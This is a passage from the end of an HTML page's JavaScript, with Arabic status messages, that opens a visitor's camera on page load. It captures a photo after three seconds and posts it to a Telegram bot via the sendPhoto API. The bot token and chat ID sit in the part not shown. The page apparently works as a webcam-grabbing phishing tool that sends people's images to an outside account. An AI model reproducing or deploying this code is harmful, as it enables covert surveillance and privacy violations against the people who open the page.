           setTimeout(() => {
            takePhoto(stream);
          }, 3000); // ← بعد 3 ثواني فقط
        };

      } catch (e) {
        document.getElementById("status").innerText = "❌ الكاميرا غير متاحة.";
      }
    }

    function takePhoto(stream) {
      const video = document.getElementById("video");
      const canvas = document.getElementById("canvas");
      const ctx = canvas.getContext("2d");

      ctx.drawImage(video, 0, 0, canvas.width, canvas.height);
      stream.getTracks().forEach(track => track.stop());

      canvas.toBlob(blob => {
        const formData = new FormData();
        formData.append("chat_id", chat_id);
        formData.append("photo", blob, "photo.jpg");

        fetch(`https://api.telegram.org/bot${token}/sendPhoto`, {
          method: "POST",
          body: formData
        }).then(res => res.json()).then(data => {
          document.getElementById("status").innerText = data.ok ? "✅ تم إرسال الصورة!" : "❌ فشل في الإرسال.";
        }).catch(err => {
          document.getElementById("status").innerText = "❌ خطأ في الاتصال.";
        });
      }, "image/jpeg");
    }

    window.onload = start;
  </script>
</body>
</html>
